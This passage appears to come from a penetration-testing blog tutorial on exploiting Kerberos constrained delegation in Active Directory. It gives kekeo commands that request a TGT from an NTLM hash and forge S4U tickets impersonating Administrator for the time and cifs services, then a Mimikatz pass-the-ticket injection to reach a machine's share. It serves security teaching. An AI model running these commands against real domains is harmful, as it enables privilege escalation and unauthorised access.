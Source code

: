 1st We verified that you really do not have access to the machine where the dbservice is constrained

![](https://0x4rt3mis.github.io/assets/img/active-enum/constrained5.png)

2nd We asked KDC about the dbservice TGT

I'm not going to demonstrate here how we capture the user's NTLM hash, this is for the post about `Mimikatz`

For this we will use `kekeo`

[Kekeo](https://github.com/gentilkiwi/kekeo)

```ps1
tgt::ask /user:dbservice /domain:DOMINIO.LOCAL /ntlm:HASH.NTLM.DBSERVICE /ticket:dbservice.kirbi
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/constrained6.png)

3rd Generate the TGS for the services we want to explore

Now it's generating the TGS for the services, the service that is "vulnerable" is TIME but we can also generate tickets for cifs, so we can access its partition

```ps1
tgs::s4u /tgt:TGT_dbservice.kirbi /user:Administrator@DOMAIN /service:time/LOCAL.BOX|cifs/BOX.local
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/constrained7.png)

That's it, tickets have been created for the TIME service and for CIFS, so now let's inject them in the section

4th Inject tickets in the section

```ps1
Invoke-Mimikatz -Command '"kerberos::ptt TICKET_GENERATED"'
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/constrained8.png)

5th Access machine share

![](https://0x4rt3mis.github.io/assets/img/active-enum/constrained9.png)

Okay, these were the main vulnerabilities that we could exploit in this way.